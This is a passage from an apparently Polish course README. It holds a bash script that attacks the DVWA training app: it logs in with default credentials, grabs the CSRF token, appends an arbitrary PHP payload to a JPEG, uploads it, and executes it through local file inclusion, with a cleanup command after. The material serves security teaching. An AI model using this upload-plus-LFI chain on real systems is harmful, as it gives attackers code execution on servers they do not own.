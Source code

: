 ```bash
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=high&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/high/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

upload_file() {
  jpg_file="$2"
  filename="${jpg_file%.*}_temp.${jpg_file##*.}"
  [ -f "$filename" ] && rm "$filename"
  cp "$2" "$filename"
  echo "<?php echo \"<bawtag>\"; $3 echo \"</bawtag>\";?>" >> "$filename"
  curl -s -x "http://127.0.0.1:8080" -X POST "$1/vulnerabilities/upload/" -b dvwa.cookie -F 'MAX_FILE_SIZE=100000' -F "uploaded=@${filename};filename=$filename;type=image/jpeg" -F 'Upload=Upload' > /dev/null
  [ -f "$filename" ] && rm "$filename"
}

execute_payload() {
  curl -sS -x "http://127.0.0.1:8080" -b dvwa.cookie "$1/vulnerabilities/fi/?page=file:///usr/share/dvwa/hackable/uploads/$filename" | awk -v RS="<bawtag>" 'NR > 1 {gsub(/<\/bawtag>.*/, ""); print}' | grep .
#sed -n -z 's/.*<bawtag>\(.*\)<\/bawtag>.*/\1/p'
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 || -z $3 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"

upload_file "$1" "$2" "$3"

execute_payload "$1" "$filename"

```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/upload_high.gif "Po uruchomieniu skrypt wgrywa wskazany plik na serwer i zwraca jego wynik korzystając z podatności LFI")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```


<br/>
